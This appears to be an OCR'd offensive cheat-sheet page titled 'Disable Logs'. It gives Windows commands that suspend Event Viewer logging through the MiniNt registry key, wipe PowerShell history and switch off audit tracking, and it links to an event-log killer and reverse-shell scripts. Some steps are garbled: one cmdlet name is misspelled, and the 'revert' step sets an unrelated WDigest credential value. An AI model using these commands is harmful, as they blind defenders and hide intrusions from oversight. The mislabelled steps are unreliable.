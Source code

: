 # Disable Logs

- **Suspend Event Viewer from generating logs**

`C:\> reg add "hklm\system\currentcontrolset\control\MiniNt"`

`C:\> reg add "hkey_local_machine\system\currentcontrolset\control\MiniNt"`

`PS C:\> $CleanTracks = (Get-PSRealineOption).HistorySavePath; echo "null" > $CleanTracks`

`C:\> auditpol /get /category:"Detailed Tracking"`

`C:\> auditpol /set /category:"Detailed Tracking" /success:disable /failure:disable`

`C:\> auditpol /set /category:"Detailed Tracking" /success:enable /failure:enable`

- Revert Back the settings

`C:\Windows\system32> reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 0 /f`

---
## References

- [Phant0m](https://github.com/hlldz/Phant0m)

- [CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)
